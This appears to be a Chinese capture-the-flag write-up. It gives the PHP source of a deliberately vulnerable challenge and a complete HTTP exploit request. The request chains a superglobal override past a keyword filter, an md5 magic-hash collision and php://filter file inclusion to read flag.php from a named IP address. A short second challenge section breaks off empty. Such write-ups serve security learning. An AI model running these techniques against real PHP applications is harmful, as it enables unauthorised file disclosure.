 ```bash
http://119.23.73.3:5006/web2/uploads/7dab88dbd2950685ac8841eb87e6d68f4ef8c1dd/123
```
# unset
题目
```bash
<?php
highlight_file('index.php');
function waf($a){
foreach($a as $key => $value){
        if(preg_match('/flag/i',$key)){
        exit('are you a hacker');
}
}
}
foreach(array('_POST', '_GET', '_COOKIE') as $__R) {
        if($$__R) { 
        foreach($$__R as $__k => $__v) { 
            if(isset($$__k) && $$__k == $__v) unset($$__k); 
        }
     }

}
if($_POST) { waf($_POST);}
if($_GET) { waf($_GET); }
if($_COOKIE) { waf($_COOKIE);}

if($_POST) extract($_POST, EXTR_SKIP);
if($_GET) extract($_GET, EXTR_SKIP);
if(isset($_GET['flag'])){
if($_GET['flag'] === $_GET['daiker']){
        exit('error');
}
if(md5($_GET['flag'] ) == md5($_GET['daiker'])){
        include($_GET['file']);
}
}

?>
```
解法：
```bash
POST /?flag=QNKCDZO&daiker=s878926199a&file=php://filter/read=convert.base64-encode/resource=flag.php HTTP/1.1
Host: 119.23.73.3:5101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
X-Forwarded-For: 127.0.0.1, 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

_GET[flag]=QNKCDZO&_GET[daiker]=s878926199a&_GET[file]=php://filter/read=convert.base64-encode/resource=flag.php
```
# PUBG
用工具扫一扫发现源码备份
index.php.bak
```bash
```